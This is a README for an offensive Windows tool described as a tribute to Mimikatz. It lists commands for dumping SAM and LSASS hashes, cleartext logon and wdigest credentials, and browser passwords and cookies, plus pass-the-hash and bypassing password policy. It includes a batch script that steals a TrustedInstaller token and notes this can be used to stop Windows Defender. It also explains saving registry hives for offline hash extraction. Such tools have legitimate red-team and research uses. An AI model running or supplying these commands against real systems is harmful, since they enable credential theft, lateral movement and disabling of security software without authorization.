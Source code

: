 # NTHASH-FPC <br/>
A tribute to https://github.com/gentilkiwi/mimikatz... <br/>
And generally speaking a tool to handle windows passwords and perform lateral movement. <br/>
https://attack.mitre.org/matrices/enterprise/windows/ is definitely worth reading as well. <br/>

<br/>
Command line as below: <br/>
NTHASH /setntlm [/server:hostname] /user:username /newhash:xxx <br/>
NTHASH /setntlm [/server:hostname] /user:username /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newhash:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newhash:xxx <br/>
NTHASH /gethash /password:password <br/>
NTHASH /getsid /user:username [/server:hostname] <br/>
NTHASH /getusers [/server:hostname] <br/>
NTHASH /getdomains [/server:hostname <br/>
NTHASH /dumpsam <br/>
NTHASH /dumphashes [/offline] <br/>
NTHASH /getsamkey [/offline] <br/>
NTHASH /getsyskey [/offline] <br/>
NTHASH /getlsakeys <br/>
NTHASH /wdigest <br/>
NTHASH /logonpasswords <br/>
NTHASH /pth /user:username /password:myhash /domain:mydomain <br/>
NTHASH /enumcred <br/>
NTHASH /enumcred2 <br/>
NTHASH /enumvault <br/>
NTHASH /chrome [/binary:path_to_database] <br/>
NTHASH /ccookies [/binary:path_to_database] <br/>
NTHASH /firefox [/binary:path_to_database] <br/>
NTHASH /fcookies [/binary:path_to_database] <br/>
NTHASH /bytetostring /input:hexabytes <br/>
NTHASH /stringtobyte /input:string <br/>
NTHASH /base64encodew /input:string <br/>
NTHASH /base64encode /input:string <br/>
NTHASH /base64decode /input:base64string <br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /lsasecrets /input:secret <br/>
NTHASH /runasuser /user:username /password:password [/binary: x:\folder\bin.exe] <br/>
NTHASH /runastoken /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runaschild /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runas [/binary: x:\folder\bin.exe] <br/>
NTHASH /runts /user:session_id [/binary: x:\folder\bin.exe] <br/>
NTHASH /enumpriv <br/>
NTHASH /enumproc <br/>
NTHASH /dumpproc /pid:12345 <br/>
NTHASH /runwmi /binary:x:\folder\bin.exe [/server:hostname] <br/>
NTHASH /context <br/>
NTHASH /a_command /verbose <br/>
NTHASH /a_command /system <br/>

<br/>

<b>changentlm</b>, using a legacy api, may not work if your ntlm hashes are encrypted with AES (i.e starting with win10 1607. <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>setntlm</b> on the other hand should always work and allow one to bypass password policy.  <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>dumpsam</b> will temporarily patch a module in lsass to be able to dump your SAM ntlm hashes from the lsass memory (need to cover/test as many windows version as possible). <br/>

<b>dumphash and dumphashes</b> will read the registry - you need to run as system to perform this action <br/>.
Or you can use the /system switch <br/>.
You can also perform this offline (and then no longer require to run as system). <br/>
You can use reg save hklm\sam sam.sav and reg save hklm\system system.sav to generate offline hives. <br/>
Both the RC4 and AES cipher are supported. <br/>
https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/ is a must read to understand RC4 vs AES. <br/>

<b>cryptunprotectdata and cryptprotectdata</b>  will decrypt datas using dpapi under the runnin user context. <br/>
You can for example decrypt the wireless stored password in C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{INTERFACE UUID} .<br/>
Retrieve the xml keyMaterial value and run nthash /cryptunprotectdata /input:keymateriel /system .<br/> 
Note that this data is encrypted/decrypted under the system account. <br/>

<b>enumcred</b> will use CredEnumerate windows API to enumerate the logged on user credentials. <br/>
<b>enumcred2</b> will use CredEnumerate windows API to enumerate the logged on user credentials while also patching lsass to dump all credentials <br/>

<b>enumvault</b> will use vaultcli.dll windows API to enumerate the logged on user vault credentials. <br/>

<b>logonpasswords</b> will dump lsasrv logon sessions primary credentials (hashes) and credential managers (clear text) <br/>

<b>wdigest</b> will dump wdigest sessions credentials (clear text) <br/>

<b>runastoken</b> can be used to run a process under a system account. <br/>
Once under a system account, you can also "steal" a token from trustedinstaller (net start trustedinstaller before hand. <br/>
Note that you can steal a trustedinstaller token directly by using the /system switch. <br/>
With a trustedinstaller token, you can perform actions like stop windefend (or kill the process, or modify the AV settings, etc). <br/>
See example below where you would start the trustedinstaller service, retrieve its pid and run a process as the account. <br/>
<i>
@echo off <br/>
net start trustedinstaller <br/>
for /F "tokens=1" %%K in ('
   nthash-win64 /enumproc ^| findstr /i "trustedinstaller"
') do (
   nthash-win64 /runastoken /pid:%%K /system
)
<br/>
  </i>

<b>runaschild</b> can be used to run a process as a child of another existing/parent process. <br/>
Note that some apps (like cmd.exe) will crash right after initialization with a c0000142. <br/>
Wierdly enough, loading notepad.exe with this method and then launching cmd.exe from there works...

<b>runas</b> will launch a process in elevated mode. <br/>

<b>runts</b> will launch a process in the context of another TS session. <br/>
Note that this one needs the setcbprivilege so you will have to find a token with such privilege first (like winlogon.exe). <br/>

todo/news: <br/>
-decrypt sam hashes online (rather than patching lsass) and offline : done in v1.1 <br/>
-deal with new AES cipher used in latest win10 1607 : done in 1.2 <br/>
-enum Lsasrv.dll!LogonSessionList: done in 1.3 <br/>
-enum Wdigest.dll!l_LogSessList: done in 1.3 <br/>
-decrypt dpapi encrypted vault and/or credentials : done in 1.4 <br/>
-patch LogonSessionList and perform pth: done in 1.4 <br/>
-decrypt chrome and firefox passwords: done in 1.4 <br/>
-decrypt firefox and chrome passwords/cookies : done in 1.5 </br>
-dpapi command to dump all masterkeys : done in 1.6 </br>
-LsaRetrievePrivateData: done in 1.6</br>
-todo : work out offline decryption of lsasecrets as well as currval and oldval </br>
-todo : work out LsaICryptUnprotectData thru dll injection </br>
-todo : work out masterkey decryption based on sha1 user password </br>
-todo : work out credential blob decryption based on decrypted masterkey </br>

